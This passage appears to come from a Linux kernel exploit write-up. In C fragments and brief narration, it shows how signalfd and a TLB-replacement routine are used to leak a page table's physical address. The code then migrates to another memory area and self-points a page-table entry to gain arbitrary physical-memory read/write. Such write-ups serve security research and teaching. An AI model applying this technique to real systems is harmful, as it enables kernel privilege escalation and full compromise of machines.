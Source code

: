 ```C
			printf("[+] found page table at phys 0x%016lx and phys valid buffer pte 0x%016lx\n", leak, (uint64_t) pte);
			found = 1;
			break;
		}
	}
	
	/* replace tlb cache */
	replace_tlb();
	
	leak = (leak + 0x1000) | 0x40100;
	mask.sig[0] = ~leak; // | 0x40100
	signalfd(fd_cross[fd_idx], &mask, 0);
}
```

![migrate](/assets/images/migrate.png)

Once I found, I did not want to use signalfd anymore, I proceeded to migrate to another user virtual memory area and next, we will self-point the page table with the first PTE and search in the next PTE to use it for full phys r/w.

```C
*(uint64_t *) evil = pte + 0x1000;
	
...

/* locate buffer to migrate and 
 * manage page table to phys r/w 
 */
found = 0;
for (uint32_t i = 0; i < TLB; i++) {
	if (full_tlb[i * 512] != i && full_tlb[(i * 512) + 1] != i) {
		printf("[+] found victim to migrate at virtual buffer full_tlb 0x%lx\n", (uint64_t) (full_tlb + i * 512));
		victim = (char *) (full_tlb + i * 512);
		found = 1;
		break;
```
